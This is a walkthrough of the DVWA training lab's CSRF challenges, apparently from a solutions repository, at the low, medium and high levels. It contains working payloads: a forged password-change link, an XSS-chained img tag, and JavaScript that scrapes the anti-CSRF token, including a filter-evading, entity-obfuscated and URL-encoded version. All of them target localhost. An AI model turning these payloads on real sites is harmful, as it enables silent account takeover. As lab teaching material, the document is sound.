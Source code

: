 # CSRF

Objective

Your task is to make the current user change their own password, without them
knowing about their actions, using a CSRF attack.

**I'd highly recommend finishing the XSS challenges first.**

## low

Here is the malicious link we could cheat others to click:  
[http://localhost:9999/vulnerabilities/csrf/?password_new=qwerty&password_conf=qwerty&Change=Change]()

In terms of DVWA, this link only works when the user has retrieved his/her
PHPSESSID, in another word, he/she should've already logged in.

## medium

This level added cross site detection. It seems that we should use some other
vulnerabilities like XSS.

For example, we could craft a link to the XSS (Reflected) challenge and trigger
the malicious one:  
`<img src="http://localhost:9999/vulnerabilities/csrf/?password_new=qwerty&password_conf=qwerty&Change=Change">`

So our link should be like this:  
[http://localhost:9999/vulnerabilities/xss_r/?name=%3Cimg%20src%3D%22http%3A%2F%2Flocalhost%3A9999%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dqwerty%26password_conf%3Dqwerty%26Change%3DChange%22%3E]()

To verify our link, log into the site as admin and access the link above, then
you can log out and check if the password has been changed to "qwerty" or
anything else you want.

## high

Our goal in this level is to bypass a anti-CSRF token.

In the source view of webpage we can see a hidden POST param called 
`user_token`, which is already set to some 32-byte hex value by the server. 
Each time we access the webpage, "user_token" changes.

The purpose of user token is to ensure that any request to the API is made by a
human from the webpage, not from some outside links.  

Just like the medium level, we need another vulnerability, to be specific, XSS.
What we're doing is to imitate a human by using AJAX.
Here's the js source to do that:  
```js
a = new XMLHttpRequest();
a.open('GET', 'http://localhost:9999/vulnerabilities/csrf/');
a.send();
a.onload = () => {
  if (a.readyState == 4 && a.status == 200) {
    t = a.response.substr(a.response.search(/[0-9a-zA-Z]{32}/), 32);
    b = new XMLHttpRequest();
    b.open('GET', 'http://localhost:9999/vulnerabilities/csrf/?password_new=qwerty&password_conf=qwerty&Change=Change&user_token=' + t);
    b.send();
  } else {
    console.log(a.status);
  }
};
```

Don't forget to bypass the XSS filter in the high level of XSS challenge. If you 
don't know what to do, refer to `XSS_Reflected.md` for more infomation.
```js
<img src="" onerror="javascri&#112;t:a=new XMLHtt&#112;Request();a.o&#112;en('GET','htt&#112;://localhost:9999/vulnerabilities/csrf/');a.send();a.onload=()=>{if(a.readyState==4&&a.status==200){b=new XMLHtt&#112;Request();b.o&#112;en('GET','htt&#112;://localhost:9999/vulnerabilities/csrf/?&#112;assword_new=qwerty&&#112;assword_conf=qwerty&Change=Change&user_token='+a.res&#112;onse.substr(a.res&#112;onse.search(/[0-9a-zA-Z]{32}/),32));b.send();}else{console.log(a.status);}};">
```

URL encode it and we get our CSRF link:  
[http://localhost:9999/vulnerabilities/xss_r/?name=%3Cimg%20src%3D%22%22%20onerror%3D%22javascri%26%23112%3Bt%3Aa%3Dnew%20XMLHtt%26%23112%3BRequest()%3Ba.o%26%23112%3Ben('GET'%2C'htt%26%23112%3B%3A%2F%2Flocalhost%3A9999%2Fvulnerabilities%2Fcsrf%2F')%3Ba.send()%3Ba.onload%3D()%3D%3E%7Bif(a.readyState%3D%3D4%26%26a.status%3D%3D200)%7Bb%3Dnew%20XMLHtt%26%23112%3BRequest()%3Bb.o%26%23112%3Ben('GET'%2C'htt%26%23112%3B%3A%2F%2Flocalhost%3A9999%2Fvulnerabilities%2Fcsrf%2F%3F%26%23112%3Bassword_new%3Dqwerty%26%26%23112%3Bassword_conf%3Dqwerty%26Change%3DChange%26user_token%3D'%2Ba.res%26%23112%3Bonse.substr(a.res%26%23112%3Bonse.search(%2F%5B0-9a-zA-Z%5D%7B32%7D%2F)%2C32))%3Bb.send()%3B%7Delse%7Bconsole.log(a.status)%3B%7D%7D%3B%22]()  
Log out and check whether you've successfully changed the password to "qwerty" 
or anything else you want.
